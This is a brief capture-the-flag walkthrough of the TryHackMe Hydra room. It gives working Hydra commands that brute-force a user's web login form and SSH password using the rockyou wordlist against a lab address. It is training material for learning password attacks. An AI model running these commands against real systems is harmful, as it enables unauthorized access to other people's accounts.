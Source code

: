 # Hydra - tryhackme intro to hydra room

## Intro
Hydra is a bruteforce online password cracking program
Uses lists or full bruteforcing
works with many many protocls
https://en.kali.tools/?p=220
https://github.com/vanhauser-thc/thc-hydra
installed by default with kali

### First challenge - brute force molly's web password for flag 1
Command used:
hydra -l molly -P ~/Wordlists/rockyou.txt 10.10.144.111 http-form-post "/login:username=^USER^&password=^PASS^:F=incorrect" -V -f


### Second challenge - brute force molly's ssh password for flag 2
command used:
hydra -l molly -P ~/Wordlists/rockyou.txt 10.10.144.111 -t 8 ssh -V
